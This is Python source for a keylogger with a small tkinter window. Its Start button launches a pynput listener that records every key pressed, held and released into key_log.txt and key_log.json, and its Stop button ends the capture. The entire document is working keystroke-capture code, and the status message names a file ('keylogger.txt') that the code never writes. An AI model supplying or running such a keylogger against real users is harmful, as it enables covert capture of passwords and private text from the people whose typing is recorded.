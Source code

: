 # Keylogger
import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt', "w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode()
        key_log.write(key_list_bytes)

def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed': f'{key}'}
        )
        flag = True

    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )
    generate_json_file(keys_used)


def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released': f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys + str(key)
    generate_text_log(str(keys))

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT)

root.geometry("250x250")

root.mainloop()
